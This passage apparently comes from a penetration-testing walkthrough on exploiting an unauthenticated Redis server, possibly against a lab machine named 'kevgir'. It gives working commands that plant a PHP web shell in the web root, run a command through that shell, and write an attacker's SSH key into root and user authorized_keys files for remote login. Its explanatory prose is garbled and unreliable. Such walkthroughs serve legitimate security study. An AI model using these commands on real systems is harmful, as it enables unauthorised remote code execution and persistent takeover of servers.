 ```
CONFIG SET dir /var/www/html/
CONFIG SET dbfilename shell.php
CONFIG GET dbfilename

1) "dbfilename"
2) "shell.php"

SET cmd "<?php system($_GET['cmd']); ?>"
OK
BGSAVE
```

which can be accessed using

```
http://$ip/shell.php?cmd=whoami
www-data
```

#### &#x20;<a href="#upload-ssh-key" id="upload-ssh-key"></a>

#### Upload SSH key <a href="#upload-ssh-key" id="upload-ssh-key"></a>

Second, file type found in the users home directory because it is our right and remote SSH access with a key instead of using the password used to connect to create key, they may be directly un-encrypted user rights that provide access to the system.

```
1:  ssh-keygen -t rsa
2:
3:  (echo -e "\n"; cat id_rsa.pub; echo -e "\n") > auth_key
4:
5:  cat auth_key | redis-cli -h hostname -x set crackit
6:  redis-cli -h hostname
7:
8:  config set dir /root/.ssh/
9:  config get dir
10:  config set dbfilename "authorized_keys"
11:  save
12:
13:  config set dir /home/user/.ssh/
14:  save
15:
16:  config set dir /home/admin/.ssh/
17:
18:  ssh user@kevgir -p 1322 -i id_rsa
```

1 - He has given parameters in line with a 2048-bit RSA key pair is generated. We can give it a password when we log in

3 - The public key of his own and to receive the new line last line auth\_key name we are writing a new file. We will upload this file to the target machine via the Redis server.
